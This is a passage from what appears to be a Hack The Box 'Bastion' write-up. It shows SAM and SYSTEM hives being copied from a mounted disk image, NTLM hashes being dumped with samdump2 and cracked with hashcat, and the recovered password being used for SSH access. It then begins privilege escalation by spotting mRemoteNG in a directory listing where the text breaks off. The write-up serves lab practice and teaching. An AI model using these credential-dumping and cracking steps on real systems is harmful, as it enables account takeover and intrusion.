 {% highlight plaintext %}
root@kali:~/HTB/Bastion/vhd1/Windows/System32/config# cp SAM /root/HTB/Bastion
root@kali:~/HTB/Bastion/vhd1/Windows/System32/config# cp SYSTEM /root/HTB/Bastion
{% endhighlight %}

To get the hashes, I use `samdump2` and pass the `SYSTEM` and `SAM` files as arguments.

{% highlight plaintext %}
root@kali:~/HTB/Bastion# samdump2 SYSTEM SAM -o hashes.txt
root@kali:~/HTB/Bastion# cat hashes.txt
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
{% endhighlight %}

The L4mpje hash takes seconds to crack with `hashcat`.

{% highlight plaintext %}
root@kali:~/HTB/Bastion# hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --force
{% endhighlight %}

The password for use L4mpje is __bureaulampje__. The Administrator and Guest account hashes are marked as `*disabled*`, so this is the best we'll get.

![](/images/bastion/image4.png)

To get in, we `ssh` as __L4mpje@10.10.10.134__ with the recovered password.

{% highlight plaintext %}
root@kali:~# ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134's password: 

Microsoft Windows [Version 10.0.14393]                                          
(c) 2016 Microsoft Corporation. All rights reserved.                            

l4mpje@BASTION C:\Users\L4mpje>    
{% endhighlight %}

The user flag is on L4mpje's Desktop.

{% highlight plaintext %}
l4mpje@BASTION C:\Users\L4mpje>type Desktop\user.txt                            
9bfe############################                                                   
{% endhighlight %}

# Privilege Escalation: mRemoteNG Credentials

With Windows privilege escalation, if nothing stands out in the Users folder, I move on to checking what software is insatlled. Here, `mRemoteNG` stands out.

{% highlight plaintext %}
l4mpje@BASTION C:\>dir "Program Files (x86)"                                    
 Volume in drive C has no label.                                                
 Volume Serial Number is 0CB3-C487                                              

 Directory of C:\Program Files (x86)                                            

22-02-2019  15:01    <DIR>          .                                           
22-02-2019  15:01    <DIR>          ..                                          
16-07-2016  15:23    <DIR>          Common Files                                
23-02-2019  10:38    <DIR>          Internet Explorer                           
16-07-2016  15:23    <DIR>          Microsoft.NET                               
22-02-2019  15:01    <DIR>          mRemoteNG                                   
23-02-2019  11:22    <DIR>          Windows Defender                            